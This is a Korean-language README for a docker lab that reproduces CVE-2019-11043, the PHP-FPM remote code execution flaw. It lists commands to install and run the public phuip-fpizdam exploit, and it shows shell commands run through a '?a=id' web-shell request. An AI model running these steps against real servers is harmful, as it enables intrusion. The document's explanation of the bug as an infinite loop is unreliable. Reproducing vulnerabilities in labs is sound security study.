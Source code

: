 # CVE-2019-11043

**Confributors**
- [장종일(@akinao76)] (https://github.com/akinao76)

### 요약
- CVE-2019-11043은 웹서버와 PHP 특정 버전에서 이 둘을 연결해주는 기능인 PHP-FPM에서 발생한 원격 코드 실행 취약점이다.
- 취약점은 일반적인 NGINX 환경 구성에서 발생한다.
- 이 취약점은 PHP-FPM의 무한 루프(infinite loop) 조건과 관련이 있다. PHP-FPM에서 특정 조건을 트리거하면 서버가 무한 루프에 빠져 CPU 리소스를 소비하게 되며, 이를 이용하여 원격 코드 실행이 가능해진다.

### 환경 구성 및 실행
-  `docker compose up -d`

환경이 실행되고 나면, `http://your-ip/8080/index.php` 에서 기본 페이지를 볼 수 있다.
![](setup.png)


### 공격
취약점을 재현하기 위해 이 도구를 사용한다.  <https://github.com/neex/phuip-fpizdam>:
- `go mod init [PKG name]` 으로 Go 모듈 초기화
- 이후 `go get github.com/neex/phuip-fpizdam`으로 도구 설치
![](pocready.png)

공격을 진행하려면 `~/go/bin` 경로로 이둥하여 `./phuip-fpizdam http://localhost:8080/index.php`로 도구 실행
![](exploit.png)

### 결과 

웹쉘은 PHP-FPM 백그라운드에서 작동된다. RCE를 실행하려면 `http://your-ip:8080/index.php?a=id`로 접속하면 된다.

![](exploit2.png)

### 정리
- 이 취약점은 공격자가 PHP-FPM 서버에 원격으로 액세스하고, 악의적인 코드를 실행할 수 있는 위험한 상황을 만들게 된다. 이를 해결하기 위해 PHP-FPM 버전을 최신 버전으로 업데이트하거나, 관련된 보안 패치를 적용하여 취약점을 해결할 필요가 있다.
